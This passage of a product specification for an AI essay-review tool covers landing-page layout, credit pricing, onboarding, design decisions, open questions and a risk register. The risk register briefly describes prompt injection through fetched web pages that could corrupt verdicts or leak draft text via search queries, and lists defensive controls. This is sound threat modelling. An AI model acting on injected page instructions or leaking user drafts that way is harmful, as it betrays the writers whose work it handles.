Twelve sections (order amended v0.3, REQ-POS-11 — the dossier and voices each move up one; everything else as v0.2): nav · hero (drop-zone; hero copy above — under Essay-led GTM the looping dossier recording is not just the best demo, it *is* the positioning) · **the dossier** (three measurable proof bullets: "Every finding quotes its passage" · "Every verdict carries a URL that was fetched and read" · "The second read never sees the first reader's notes"; "Independent second read, not a panel of personas") · workflow strip (Outline → Draft → Review → Revise, one real screenshot each — lifecycle order, a truthful diagram, not a billboard; Draft's one sentence always carries its authorship frame, "written to your outline, in your register, with a structure plan you approve first", with its approval gate visible) · the author's seat (triage ledger; "You decide. The agent revises. The letter records why.") · **voices** (staleness pill; "a register, not a person" — the differentiator no essay-market incumbent has [research/12 §1.2]) · live runs (run card with phase progress and the cost meter — the estimate-and-cap contract on the marketing page) · models ("Stay on the frontier": Base / Balanced / Frontier with a one-line "when"; "Powered by Claude" permitted, "Claude Code" not) · proof (measured stats from golden runs at launch; comparative/superiority claims only from a §18 pre-registered wave that met its criteria — REQ-EVAL-19; named testimonials later; never fabricated logos — REQ-GROWTH-5) · pricing (tier table + cost cards from the same `pricing.json` as `/pricing`; Essay card leads — REQ-POS-2) · changelog + FAQ · final CTA + footer. Headline candidates to A/B (unchanged): "An editorial board for everything you write." vs "Your draft, read like it matters." **Copy rules (v0.3):** no hero or proof surface depicts or promises prose generation — generation appears only inside the workflow strip and product screenshots, always with its approval gate visible, enforced by the same review that enforces REQ-GROWTH-5 (REQ-POS-5/11); and no marketing or product copy references AI-detection or platform scanning — authorship-legibility framing ("show your work") is permitted, detection-evasion framing never (REQ-POS-13).

**Drop-zone behaviour** (REQ-GROWTH-1): a file dropped before signup is held client-side (IndexedDB, ≤10 MB), routes to `/signup?intent=review`, and after auth lands in a new project with the draft ingested — an 8k-word `.docx` rendered within 20 s with word count and detected citation spans. **Motion policy** (REQ-GROWTH-3): only real product recordings (looping, muted, ≤15 s, ≤2 MB, lazy, hero within 1.5 s on 10 Mbps) and ≤200-ms scroll reveals; no parallax, cursor-following or audio; `prefers-reduced-motion` shows poster frames only; CLS < 0.05; hero LCP < 2.5 s.

### 15.2 Pricing page

The ladder (§14.2), the per-workflow **cost-range cards** (ranges across model tiers at Standard rigor — never a single number on marketing pages, REQ-GROWTH-6), a feature matrix grouped as writers think (Write · Review · Voice · Run · Account), and an FAQ whose "Why does a review of my 8,000-word paper cost about $12?" answer is generated from the same `cost_per_verified_claim.review[tier]` constants as the estimate service (REQ-GROWTH-9): a review reads the draft several times and fetches the sources behind every checkable claim; most cost is re-reading context; each verified claim costs roughly 24 credits on Base and 108 on Frontier inside a Review (11 and 51 in a stand-alone Fact-check); fact-check off drops an 8k paper from ≈1,240 to ≈330. Other FAQ answers: what a credit is; the cap guarantee; what happens at zero ("runs pause at the estimate sheet; we never bill your card automatically unless you turn on auto-reload with a cap"); failed runs are free; no training on your writing; BYO keys "not yet — 1.1 on paid plans at a 15% platform rate"; one trial per person.

```
┌ Essay · ~5,000 words · ~20 claims ────────────┐  ┌ Academic paper · ~8,000 words · ~45 claims ─────┐
│ Draft                  400 – 1,830 cr          │  │ Draft                  830 – 3,830 cr            │
│ Review                 560 – 2,520             │  │ Review               1,240 – 5,750               │
│ Revise                 450 – 2,070             │  │   · fact-check off     330 – 1,160               │
│ Full round           1,410 – 6,420             │  │ Revise                 900 – 4,220               │
│ ▸ Base 1,410 · Balanced 3,290 · Frontier 6,420 │  │ Full round           2,970 – 13,790              │
└────────────────────────────────────────────────┘  └──────────────────────────────────────────────────┘
  Voice profile · 50k-word corpus  310 – 1,510        Quick review (≤3k words, Base) ≈ 180 · Standard ≈ 300 · Full board ≈ 350 (modeled; §6.1)
```

Cards show model-tier ranges at Standard rigor; the rigor multipliers of §6.1 derive every other figure. Card order amended v0.3 (REQ-POS-2; Q-21, ratified — §16.3 #25): the **Essay card leads** — Writer $20 ≈ "3 essay loops on Base" is the honest monthly story inside the fetched consumer anchor band — with Academic second, all four cards on the page, and the voice profile priced visibly as the thing no competitor sells; the Op-ed protocol remains the trial's featured demo (§2.1, §16.4).

### 15.3 Signup and onboarding

**Signup:** Google OAuth or email magic link; no password, no questionnaire, no card; Apple Sign-In with the mobile app. The magic-link wait screen shows a logged-out, read-only preview of the Showcase dossier so the wait is not empty. Rejected: a use-case survey (the three entry points *are* the segmentation), card at signup, password-first.

**The $0 activation** (REQ-GROWTH-11; ledger C23): every workspace ships with **"Welcome — a worked example"** — a ~2,000-word essay's outline, v1, full-board dossier (claim ledger with URLs, discourse report, second-read reconciliation, letter, rubric), triage ledger, v2 and response letter; pre-computed once, copied per account (source and refresh policy: §16.3 #21). **Precedence** (review 12 #25): the first screen after signup is that project's timeline with the dossier open and the first finding selected — *unless* the user arrived with a hero-dropped file, in which case the dropped file wins, the new project opens with the draft ingested, and the Showcase is the second row of the project list under its "Worked example" label. Showcase rules: read-only artifacts ("Worked example — can't be edited; duplicate to play"); Duplicate makes a normal project; runs on it are blocked with an inline explanation; archivable, not deletable (restorable from Settings).

**First five minutes** (REQ-GROWTH-12): the empty-state card offers the three entry points; a hero-dropped file skips it. *(ADR-128, R7HOME.2b, 2026-11-06: the empty-state card is now the blank Page's quiet affordance row on the immediately-created project — the writer types immediately or picks an entry point; no modal coaching, no dialog.)* *Scratch*: the Chat opens inside the empty project; the first reply is tool-less; chips show their price before running (Research this ≈25 cr; Propose a structure — Ask; Make an outline ≈15 cr); the outline lands on the timeline within five minutes (§7.6). *Outline*: "Outline detected: 7 sections · ~4,200 target words"; the Draft run sheet; on trial, "Draft the first section (preview, ≈60 credits)"; the Approve-plan card is pre-approved for the trial preview (`Decision.by:'trial'`). *Draft*: "Draft detected: 3,100 words · 12 citation-like spans" after the conversion preview (§5.3); the Review sheet shows **Included** (the entitlement, Standard); findings stream as margin cards with the first visible in under 90 s. Rules: every Approval on (Q-7) and pre-filled with the recommended answer (universal — §6.4); Ask and Run visually distinct everywhere; no modal tours — coaching is inline, dismissible, at most once per surface. **AC:** median signup-complete → first finding rendered ≤ 4 minutes on the Upload-a-draft path; zero modals on first load.

### 15.4 Growth loop and theme parity

The loop is: drop-zone → showcase (inference-free activation) → own Standard review on the entitlement → end-of-review card → the estimate sheet on the second run as the only paywall → Writer. Every surface in this section has light and dark variants with WCAG AA contrast, checked by axe in CI (REQ-GROWTH-17). Analytics events from §3.5 instrument every step; the trial grant, the word cap, and the consent threshold are tuned from `run.estimated` / `run.completed` / `paywall.shown` data, not fixed in code.

---
## 16. Risks, departures from operator requirements, and open questions

### 16.1 Departures from operator requirements (Q-20 presumption, argued)

Each departure honors the operator's intent and changes only the shape; each is defeasible by the operator in review.

| # | Operator requirement | Spec decision | Reasoning |
|---|---|---|---|
| D1 | ⚑ "perhaps we should just not allow [the persona] to change after the first draft is generated" (hard lock; J5 lean; design/3 REQ-DATA-32) | **Soft lock** after v1 with *Fork under another voice* and *Adopt refreshed profile* (R1; §9.6) | The precedence rule makes a swap after v1 mostly a no-op for existing text and a register-switch defect for new text — so the plain control is disabled, exactly as the operator intended. But the *refresh* case is legitimate and common (a profile refreshed mid-project must be adoptable), and a hard lock pushes users to duplicate projects by hand. The intent (protect the voice) is fully honored; only the UI shape differs. [research/12 §3.4; design/8 §4.3; design/9 §8.1] |
| D2 | ⚑ "perhaps the projects should by default also be organized by persona, though the default location for new projects should be the persona-less case" | **Attention-first** grouping; voice as chip, first filter, and a remembered alternate grouping; new projects Unfiled (R2; §5.2) | Every product in the operator's inspiration set groups its home by what needs the human, because runs are long and asynchronous — and Rhema's are longer. For a single author the voice distribution is degenerate (one large Unfiled bucket) and voice grouping hides the state signal a collapsed group would swallow. The operator's underlying intent — voice as an organizing identity — is honored three ways. If multi-voice users dominate, the default flips per user via a setting. [design/2 §3.3] |
| D3 | Q-18 "support mobile; consider a platform-independent mobile app" | Mobile ships **after the web MVP** (1.x), with the feature split fixed now (§10) | The mobile core (approve from the train, read findings, dispose) depends on artifacts that exist only once the web loop is live and on push infrastructure; Substack launched its app editor a year after web. The app is a projection of fixed contracts, not a redesign. [design/9 §8.1; design/7 §9] |
| D4 | Q-16 roadmap skills "in v1 spec" | All four are fully specified; Steelman, Map the field and Run rounds ship in 1.x; **Structured dialogue is specified but not shipped in the first year** (§6.2) | It composes from Steelman + Map the field, needs a transcript UI, and no MVP genre requires it; shipping it before its components inverts the dependency. |
| D5 | Q-7 "human gates on by default" | Approvals on for every C2+ run and every run that writes a version; **no Approval on C0/C1 proposal-producing workflows** (Titles, Abstract, Reverse outline, Line edit, Interview me, Figure) | These cost < $3 and produce proposals the user accepts or discards — the acceptance *is* the gate; a card in front of a 3-credit run is friction without protection. Q-7's rationale ("steps are long and expensive") does not apply. [design/9 §8.1] |
| D6 | Q-7 read with design/2's 30-minute auto-proceed | **Approve triage waits by default**; other deadlines in hours, not minutes; **Confirm scope is informational by default** and blocks only at Full board and in three named cases (R3, R15; §6.4) | The triage ledger is the author's decisions by design; auto-proceeding writes a $10–70 draft against dispositions nobody read. Waiting costs nothing on this architecture. Prose plans are read, not skimmed, so the other deadlines are hours. The scope card at Quick/Standard protected nothing financial (auto-proceed never spends beyond consent) and idled every review for up to two hours; at Full board — Q-7's "long and expensive" case — it still blocks. [design/6 §3.1; design/7 open q. 7; design/5 §2.6; review 12 #4] |
| D7 | Q-9 export list "txt / rtf / md / Word / Google Docs / PDF / LaTeX etc." | rtf pulled into MVP; **Google Docs export is 1.x** (§13.4) | pandoc produces rtf for free, so it ships. Google Docs needs the Drive `drive.file` OAuth consent-screen review, whose cycle time is outside our control and would gate the launch; the docx export opens in Google Docs today. The intent (get the text out in every common format) is honoured at MVP. [review 11 #31] |
| D8 | Founding prompt "link to … a Substack, Medium, or perhaps others" | Substack at MVP (public API + export zip); **Medium, Ghost, WordPress, RSS in 1.x** (§9.5) | Medium exposes only a recent RSS window and an export zip — no archive API — so a Medium link would silently under-sample; the export-zip importer that makes it honest (ledger I7) is scheduled with the other providers. Upload and paste cover Medium writers at launch. [review 11 #32] |
| D9 | Founding prompt "ideally … all possible use cases (high academia, journalism, blog, creative writing, business writing …)" | Four protocols at MVP (Academic, Essay, Op-ed, Memo); Journalism, Creative nonfiction, Technical docs 1.x; Marketing and Fiction Later (§2.1, §3.2) | Q-15 ("more than academic") is satisfied. Journalism needs a source-and-quote ledger and a reporting-protocol intake that do not exist yet (§16.3 #20); creative nonfiction needs an author-only gap Approval; fiction is a different rubric family with a $10–44/mo incumbent. Each deferred genre is a protocol row, not a rewrite. [design/9 §3.5; review 11 #33] |
| D10 | Q-8 visualizations "auto-inserted at the right spot" | **Inserted as a proposal at the right spot**; the user's Accept is one click (§7.5) | A silent write into a human-editable document breaks REQ-WF-2 and could land in a version a review is reading. The proposal card anchors where the figure belongs, so "the right spot" is kept; only the final keystroke is the user's. [review 11 #38] |
| D11 | Founding prompt "create, re-organize, open for editing" | Organisation by attention, voice, protocol and (1.x) tags; folders and manual ordering never (§5.2) | Folders duplicate what voice and protocol grouping already give a single author and hide the attention signal a collapsed group swallows; tags are the cheap, non-hierarchical answer and ship in 1.x. [review 11 #35; review 12 #29] |
| D12 | Q-14 "dark by default" | Shell dark by default; **paper pinned light by default** inside it (R17; §5.9) | Not a departure but a reading: "paper in a dark shell" is a light sheet inside a dark studio. A dark paper by default would be a dark editor, and long-form reading on dark ground for hours is the minority preference among writers. The landing page and the shell stay dark. [review 12 #13] |

### 16.2 Departures from source conventions and research notes needing operator confirmation

| # | Departure | Status |
|---|---|---|
| C1 | **The Assistant reads the Drafter's notebook read-only** (`agents/author/{outline,research,voice-charter,ledgers}`), narrowing the convention's own-namespace rule for a seat the convention did not have (R9; §7.1). The wall that carries value — Editor ↔ Drafter, and the persona hold-out — is untouched; the Drafter never reads chat. Fallback if declined: shared-record-only, which costs the chat the outline provenance and the voice charter as context. | **Needs operator confirmation** |
| C2 | **Free tier keeps a 10-credit daily chat allowance** (chat only, no web research, nightly expiry) — research/10 rejected daily grants; research/6 recommended them (R5). Cost bound ≈$0.07/day; a free tier that can do nothing is churn. | Adopted; confirm |
| C3 | **Trial is an entitlement**: one Standard Review ≤6,000 words on Base plus a 150-credit pocket — research/6 proposed a ≤$4 reduced-depth grant, design/4 a 600-credit balance with Full board permitted (R4, amended in v0.2 by R16). The landing sentence "Your first review is included" must be literally true; a Standard dossier with a second read is the activation moment; the COGS (≈ $2–4 list typical, ≈ $5.70 at the 6,000-word cap) is re-based in §16.4. | Adopted; confirm |
| C4 | **Tier names** Free / Writer / Studio / Studio Max / Team replace both research/10's "Max 5×/20×" and design/4's Reader / Pro / Max / Max+ (R6); **model tiers** Base / Balanced / Frontier replace every prior naming (R7). | Adopted; confirm |
| C5 | **BYO keys** are "1.1 on paid plans at 15%" — research/10 said 1.1, research/7 said v2; the spec picks 1.1 after sharing roles are scheduled. | Adopted |
| C6 | **Editor's argument and craft notes** (`03/04`) are Inspectable (Advanced), not sealed — research/2 §2.2 #9. If the operator prefers them sealed, only the Browser's Advanced section changes. | Adopted; confirm |
| C7 | **"Drafter"** replaces "Author" for the agent seat (R8). The operator may prefer "Author" for continuity with the repo; the ICMJE argument stands either way and the spec recommends against "Author" in academic surfaces even if kept elsewhere. | Adopted; confirm |
| C8 | **Q-3 AWS-first vs Anthropic web tools:** inference on Claude Platform on AWS (Anthropic-operated, Marketplace billing) rather than Bedrock, which lacks web search/fetch. Bedrock is reserved for non-Anthropic models. | Adopted; account-rep conversation before launch |
| C9 | **Q-11 at port time:** `bootstrap-persona` loses its `usage=study` default and quotation-bound rule; Mode is metadata; a one-line AUP notice at voice creation (Anthropic AUP exposure stated once in the ToS). | Adopted |
| C10 | **SDK run transcripts are retained 30 days** (H-class, support-only, logged access) although the convention says "never persist raw fetched pages" — the transcript contains fetched page text. Needed for the orphan/resume optimisation and support; the 30-day lifecycle and REQ-VIS-11 bound it. Fallback if declined: transcripts deleted at terminal state, resume always cold. | **Needs operator confirmation** (review 13 F28) |
| C11 | **The ported skills gain outputs, not only inputs:** structured sidecars (`sidecar: true`) and `.rhema/phase-result.json` (REQ-SPEC-12/13), kept in the public repo behind an input flag so upstream skills stay usable without them. A larger upstream diff than "phase/scope/changed_since". | Adopted; confirm (review 13 F2, F20) |
| C12 | **The Assistant's read set excludes unfrozen response ledgers** (narrowing C1 further): reading pre-triage dispositions would let chat rehearse rebuttals against the Editor before Revise runs. | Adopted (review 13 F19) |

### 16.3 Open questions (each with its owner and the decision it blocks)

1. **Cost ranges are model outputs, not measurements** (A7). Every credit figure in §6.1–6.2, §9.2, §12.2, §14.2–14.3 and §15.2 derives from research/10's parametric model calibrated to one operator data point (Q-10), and the phase split changes the cache economics that model assumed (review 13 F8). One instrumented run per workflow (ledger G21 fixtures), metered at the proxy, must replace them — and the rigor multipliers of §6.1 — before the price card, the trial word cap, the 150-credit pocket, and the ≈180/300/350 Quick/Standard/Full-board figures are frozen. *Owner: P/A. Blocks: pricing page launch.*
2. **Approval deadline defaults** (24 h / informational / wait / 24 h / 2 h) and the 10-minute presence timer are chosen by reasoning, not evidence; instrument `run.approval_decided.latency` and `gate.presence_timer_shown` and revise after the first hundred approvals. Whether the **Approve sample** gate should also wait indefinitely (persona runs are never on a project's critical path) is a cheap flip. *Owner: D/P.*
3. **Per-turn chat budget** (40 credits / 5 searches / 10 fetches) and the Research run's default source count depend on the measured cost per fetched page. *Owner: A.*
4. **Section-boundary delivery of queued guidance** inside a single-context writing phase relies on the SDK's streaming-input mode mid-`query()`, documented but unverified under load, *and* on a `resume_from` skill input with tested semantics (review 13 F6); spike alongside the `phase` input. Until both pass, delivery and pause are at phase boundaries only (1.x). *Owner: A. Blocks: REQ-GATE-12/14/15 section granularity.*
5. **Claude Platform on AWS authentication** (ledger M15): if the Marketplace flavour uses SigV4, the proxy signs with its task role and injects no key — the design gets simpler, not harder (review 13 F44); the direct-key fallback is the only case needing injection. Resolve **before the proxy is built**, since the two designs differ. Also unverified: the shape of its Usage & Cost report for reconciliation by request id, and whether its responses carry the `usage` block the proxy meters. *Owner: A. Blocks: §12.3, §12.7.*
6. **Fargate task launch latency** is unmeasured; the 45-s SLO is a target; the warm pool of §12.4 is the first response, the G19 spike (AgentCore microVMs) the second. *Owner: A.*
7. **The Research run's URL policy and cap:** `research_burst` is a Rhema-owned skill, not an upstream one; confirm before launch that it honours the per-run URL policy, the proxy cap and the two-conduit rule (its notes never reach a Drafter or Editor run). *Owner: A.* (The v1.0 reference to an undefined `/deep-research` command is withdrawn.)
8. **Vega PNG rendering** needs a canvas native package whose compatibility is unverified; fallback is `@resvg/resvg-js` rasterization for docx/Google Docs. *Owner: A.*
9. **iOS Web Push capabilities** were never fetched; the Expo decision rests on the gate use case and Q-18's wording. App-store external-purchase rules, the Sign-in-with-Apple requirement, and the account-deletion rule must be checked against live guidelines before first submission (ledger M19). *Owner: P.*
10. **`badly-off` threshold** for calibration: proposed *fewer than half of measured features within one band, or the blind check picked the prediction as the author's*; needs confirmation before it becomes a computed state. *Owner: P.*
11. **Quick Voice truncation** (first 2,000 words per sample) biases toward openings; alternative is three 700-word windows; test once the measurement service exists. *Owner: A.*
12. **Hold-out secrecy on refresh:** whether a refresh must pick a *new* hold-out to remain honest once the previous one is visible in the calibration report. *Owner: P/A.*
13. **"A third more findings from the second read" — superseded in v0.3 by REQ-EVAL-13:** the second read's marginal contribution is measured as gold-set hits unique to `origin=second_read` findings kept at reconciliation, in the §18 benchmark; in-product measurement cannot answer it (more findings is not more *correct* findings), and no upgrade copy quotes a second-read number from any other source. In-product yield remains a §3.5 telemetry row. *Owner: P.*
14. **Op-ed outlet table** rows carry no date on the source page; verify each before seeding (`verified_at`). *Owner: P.*
15. **RLS tenancy — closed in v0.2.** Decided in §11.4 (REQ-DATA-4 amended): forced RLS, `SET LOCAL` only, a lint, a two-tenant pooled-connection test, limited roles for `collab` and the harvester. Kept here so the ticketing session sees it was a question. *Owner: A.*
16. **Second review of the same version — closed in v0.2.** The prior review is passed explicitly as the `prior_review` skill input (review 13 F27); the legacy `vN-review/` symlink is no longer relied on. *Owner: A.*
17. **Variant concurrency — closed in v0.2.** Queued variants count as N runs against the plan limit (§12.4 step 3); variants themselves are 1.x. *Owner: P.*
18. **Trial figure quota:** figures are cheap but a runaway iteration loop is a support hazard; the 150-credit pocket bounds it, and a per-day figure-version cap on trial remains an option. *Owner: P.*
19. **Halation / no-pure-black rule** is carried as inference; a fetched dark-mode readability source should back it before the design system is final. *Owner: D.*
20. **Reporting-protocol intake** (notes, transcripts, documents rather than an outline) needs an ingestion design before Journalism ships in 1.x. *Owner: D/A.*
21. **Showcase project content** (ledger C23; review 11 #47): which essay, whose voice, which protocol, and whether its cited URLs must still resolve at launch. Proposal: one of the three real projects, licensed by the operator, under the Essay protocol with an anonymised voice; URLs re-verified quarterly and the dossier regenerated when a cited URL dies. *v0.3: the Essay-protocol choice is confirmed rather than revisited (REQ-POS-3), and the Showcase's claim ledger must contain at least one contradicted Tier-1 claim with its fetched URL — the sharpest 60-second proof that this is not chat.* *Owner: P (operator decision on which essay).*
22. **`beautiful-mermaid` licence and existence** could not be verified from the review environment (review 13 F48); confirm it is real and under an allowlisted licence before it is named in a ticket; fallback is the Mermaid CLI in the render worker. *Owner: A.*
23. **Trial economics under the entitlement** (R16): the worst-case ≈ $5.70 list COGS per signup that runs a review (≈ $2–4 typical) replaces research/6's reduced-depth assumption; at ≥10% conversion that is ≤ $57 of inference per Writer conversion against ~$240 first-year revenue — acceptable if typical drafts are 3–5k words, which the drop-zone telemetry must confirm within the first month; every figure here is provisional until §16.3 #1. *Owner: P.*
24. **The MVP scope estimate** of §17 (52–67 person-months) assumes the F24/F46 editor cuts and agent-assisted implementation; re-estimate at Phase-0 exit. *v0.3 deltas:* +1.5–2.5 PM revision obligations (§11.7), +1.25–2 PM authorship slice (row 39), +2–3 PM evaluation-program engineering (§18) → full plan ≈ **57–74 PM**; the ratified beta path (Q-22) reaches first external users at ≈ 29.5–39.5 PM (the 28–37 base — beta Phase 0 ≈ 16.5–21 since Draft's port defers, + 10–15 beyond — plus the 1.5–2.5 obligations delta) and totals ≈ 60–79 PM incl. its 3–5 PM double-work tax (§17). *Owner: S.*
25. **Q-21 — the wedge (recommendation: Essay-led GTM — ratified by the operator 2026-09-01).** All streams' input is in §2.1 and design/17 §1; the decision is narrative, not scope (Academic ships complete per Q-15). Applied throughout §2.1/§15; ratification makes this final. *Blocks: launch-narrative surfaces. Owner: operator.*
26. **Q-22 — MVP philosophy (recommendation: validation-first, built as a sequenced Phase 1 — Phase 0 → benchmark → Review beta → full IDE → public launch — ratified by the operator 2026-09-01).** The decision rule and both options' cases are recorded in §17; the full-IDE plan remains the destination on every branch. *Blocks: the order of the ~24–30 PM of demand-sensitive Phase-1 epics. Owner: operator.*
27. **Q-23 — benchmark budget (recommendation: ≈$100k capex across the first two quarters — corpus ≈$38k, human-editor arm ≈$7.5k, two full waves ≈$15k each — then $10–15k/quarter steady state — ratified by the operator 2026-09-01).** A flat $10k/quarter is the minimum at which the program is real, with the explicit consequence that no superiority claim can ship for ~2 quarters past launch; $2k/quarter funds instrumentation, not an evaluation program (§18.6). Tracked here separately (design/19 F-7): the **LIFT numbers themselves — 15 pts / 60% / two waves (§18.4, REQ-EVAL-15) — were confirmed by the operator on 2026-09-01; the pre-registration may freeze them.** *Blocks: §18 corpus commissioning; the pre-registration freeze; the launch narrative's proof section. Owner: operator.*
28. **Q-24 — authorship legibility (recommendation: yes — slices S1–S4 in MVP at ≈1.25–2 PM — ratified by the operator 2026-09-01).** Applied to matrix row 39 (ratified 2026-09-01); span marks stay 1.x on unchanged F46 cost grounds. Precondition of the Q-21 wedge (the launch segment is the one most exposed to authorship anxiety — research/13 §A3). *Owner: operator.*
29. **Q-25 — argument graph (recommendation: evidence-led timing — the v2 spike gated on the §18 corpus, kill criteria binding; not funded now as the product's soul — ratified by the operator 2026-09-01).** The compounding graph the evidence supports today is obligations + lineage + preferences + the eval corpus (§11.7), which is also the spike's prerequisite. If the operator wants the spike sooner it needs its own ~10-essay annotation budget (~$2–4k of Q-23's envelope). *Owner: operator.*
30. **Q-26 — preference-profile privacy (recommendation: default-on, account-local learning with a first-class opt-out; cross-account only by a separate future opt-in — ratified by the operator 2026-09-01).** Rationale and toggle copy in §11.7; consistent with Q-12. *Blocks: 1.x aggregation job. Owner: operator.*

### 16.4 Risk register

| Risk | Severity | Mitigation |
|---|---|---|
| Price cards wrong by 2× because cost ranges are modeled | High | publish only after instrumented, proxy-metered runs; the 1.5× cap absorbs variance; the circuit breaker (REQ-SPEC-24) bounds the platform's exposure; ranges marked provisional |
| The skill port's three bets fail: completion oracles, gate write-back, structured output (review 13 §11) | High | Phase 0 de-risks all three on the three real projects before a pixel of the IDE exists; exit criteria in §17 |
| Trust chip or money meter forged from inside the sandbox | High → Low after REQ-SPEC-10/11 | privilege separation; per-run proxy credential and allowlist; attestation from server-side facts; the marketing claims of §1.4 and §15.1 do not ship until the Phase-0 exit criterion holds |
| Run rounds becomes a $300–600 button | High | budget mandatory; `auto` only on Studio+; stall detection; cumulative meter; every round a normal timeline entry; 1.x |
| Trial economics (≈ $2–6 list inference per signup that runs a review; needs ≥10% conversion — R16, §16.3 #23) | High | entitlement bounded by word cap and Standard/Base; global daily trial-spend ceiling; word cap and pocket re-sized from telemetry; Op-ed as the cheapest full-regimen demo |
| Memo confidentiality vs web research | High (trust) | protocol forbids web fetch of user data; user-supplied-source verdicts; the run sheet says so |
| Prompt injection from fetched pages corrupts a verdict, the feed, or exfiltrates draft text through search queries | Medium | controls (a)–(f) of §12.8, stated accurately: `fetcher` routing at Full board; untrusted wrapping; model-independent verdict source checks; query-length and domain caps at the proxy; n-gram diff on search queries; input-scoped second read; template-only feed text; residual risk disclosed |
| Editor scope is roughly two front-end engineer-years (review 13 F46) | High (schedule) | the REQ-SPEC-19 MVP cut: no suggestion marks, no working copy, server-side compare, no Source mode, block-level provenance |
| Boundary violation reaches a delivered artifact | Low (enforced four ways) | read-only mounts + uid split + hook + write-back diff; attestation shown; quarantine playbook |
| Rigor dial hides that Quick is a different product | Medium | the notch's card lists what is off; the run report says what the full board adds; the letter is labeled "Quick review" |
| Naming drift between internal `author`/`editor` and product Drafter/Editor | Low | single i18n table; REQ-PROD-6 lint; telemetry uses skill ids |
| Protocol venue tables go stale | Medium | `verified_at` per row; user-typed venues; stale rows show the date |
| Reviewer-side misuse (a peer reviewer uploads someone else's manuscript) | Medium (policy) | ToS clause; positioned as the author's pre-submission check; peer-review simulation never marketed to reviewers |
| Homogenization across rounds | Medium | hard round caps; Line edit suggestion-only with byte-identical untouched text; charter precedence surfaced |
| Human-revision orphaning confuses users | Medium | explicit *Edited by you* state, banner, "Revise using your edits" |
| Four protocols in MVP stretch QA | Medium | same seven phases with defaults; golden regression per protocol on the real projects plus op-ed and memo fixtures; if one must go it is Memo (its no-web-fetch rule is a distinct verification path — review 12 #28), but Q-15 favours keeping all four |
| Findings surface collapses under volume (120–200 findings on a long Academic review) | Medium | triage mode, clustering, one-preview bulk, Drafter-proposes-first, the Quick findings cap (REQ-SPEC-7) |
| Provider rate limits on the Marketplace tier | Medium | account-rep conversation before launch; outage banner and pause playbook |
| **Frontier absorption** (added v0.3 — evidence-backed, not hypothetical: ChatGPT Work is a shipped multi-hour document agent; Gemini Notebook has 30M+ users and artifact outputs; Deep Research Max is real — research/13 §A2 verified every competitive claim and found the critique *understated* reality) | High | the non-prompt-replicable assets of §1.6 (kernel-enforced independence with attestation, the metered cap contract, the obligation/provenance graph); the §18 benchmark measures the gap quarterly, and a major frontier release triggers a re-steelmanned mini-wave within 30 days (REQ-EVAL-17) |
| **Grammarly-class parity** (added v0.3): Authorship tracking already shipped; Reader Reactions free tier; Citation Finder (verified: *supporting* sources only) | Medium | named quarterly parity watch — owner assigned at Phase 0 — on Grammarly Authorship / Citation Finder scope, ChatGPT Work document loops, Gemini Notebook artifact features (research/13 implication 2); the durable verified deltas: contradiction-seeking fact-check, enforced independence, disposition semantics, run-priced deep judgment |
| **Users prefer flexible chat over the structured loop** (added v0.3) | Medium | the two-conduit design (§7.1) keeps chat present but never load-bearing; the drop-zone hero meets the chat habit at its entry point; the Review beta instruments the export-to-chat pattern and asks partners directly (REQ-BETA-10) before the demand-sensitive PM is spent |
| **The best writers value human editorial relationships because they are human** (added v0.3) | Medium | positioned as the board a writer doesn't have, never a replacement for an editor they do; §18's A6 human-editor arm prices the comparison honestly ("what money currently buys", not a ceiling claim); design partners include working editors as calibration readers (REQ-BETA-16) |
| **False-positive AI accusation against human-written work** (added v0.3 — reader-facing scanning is live on Substack; detector FPR claims are vendor-reported and historically unreliable — research/13 §A3) | Medium | provenance records as the writer's defense: AI-use statement + block-level appendix at MVP (row 39), "show your work" framing; never detection-evasion copy (REQ-POS-13) |
| **Public product running without independent security testing** (added 2026-11-11, ADR-112) | Medium (time-boxed) | the in-round pre-launch adversarial review gated the launch at zero open criticals/highs (§12.8 banner); the external engagement is a dated obligation ≤ launch + 60 d (`D-P1.22-3`, ≈ 2026-12-28 — escalates to the operator if overdue); a confirmed cross-tenant read on prod is a `GD-EXPOSURE.R6` breach and expedites the engagement |

> **⚑ Note — 2026-11-11 (205_R6REC.2 / REQ-TAIL-3):** under ADR-111 the public launch proceeded
> without the wave-1 LIFT read — **this register's claims guard is unchanged.** No §16.4 / §1.4 /
> §15.1 efficacy or superiority claim ships on any surface until a pre-registered wave meets
> REQ-EVAL-15 (the REQ-EVAL-19 launch-surface lint still enforces it mechanically), and a later
> wave failure applies REQ-EVAL-16's pre-committed consequences to a *public* product, not a beta.

---

## 17. Roadmap

No calendar dates (Q-2): sequence and exit criteria only. Every row of the feature matrix (§3.2) maps to an epic; the ticketing session (O6) orders them.

**Sequencing (restructured v0.3; Q-22 ratified 2026-09-01; design/18).** The ratified order is **validation-first, built as a sequenced Phase 1, never a fork**: Phase 0 → **benchmark** (§18 — UI-free, runs on the Phase-0 engine; measures *supply*: is the lift over a steelmanned frontier one-shot real?) → **Review beta** (measures *demand*: do serious writers repeatedly route important work through the loop, and pay?) → complete the full IDE → **public launch** armed with the benchmark result, partner evidence, and telemetry-tuned pricing. The benchmark and the beta answer disjoint questions and compose: if the lift criterion fails, stop before building *any* UI — beta or IDE (REQ-EVAL-16 governs); if it passes, the entire residual risk is demand-shaped, which is precisely and only what the beta instruments. Each gate has a pre-registered threshold before the work behind it starts (REQ-BETA-20). **Decision rule (Q-22, recorded per REQ-BETA-22):** choose the beta iff the largest risk still standing after Phase 0 and the benchmark is demand-shaped rather than quality-shaped — concretely, choose full-IDE-direct only if **both** (a) the §18 lift criterion has been met **and** (b) demand is already evidenced without a beta: ≥ 15 identified target-segment writers committed, with money (pre-payment or signed LOI at ≥ Writer price), to putting real manuscripts through the loop at launch. Today (a) is unrun and (b) is zero, so the rule chooses the beta; if the operator can produce (b) — e.g., from the upstream repo's audience — the beta's information value collapses and the undiluted launch is worth more. Had Q-22 chosen full-IDE-direct, the table below would read as v0.2 with the benchmark rows retained (they gate marketing claims on every branch). The full IDE as specced remains the destination on every branch; only *when* the demand-sensitive ~24–30 PM is spent changes.

| Phase | Ships | Exit criterion |
|---|---|---|
| **Phase 0a — Accounts and registrations** (before any code; review 11 #36) | Stripe account + Stripe Tax registrations by geography (ledger L13); AWS Marketplace subscription to Claude Platform and the account-rep conversation (C8, §16.3 #5); Apple and Google developer accounts; Expo/EAS organisation; Google OAuth consent screen (`drive.file` review can start now for 1.x); `rhema.app` and `rhemausercontent.com` domains; SES production access | every account exists under the operator's ownership; secrets in Secrets Manager |
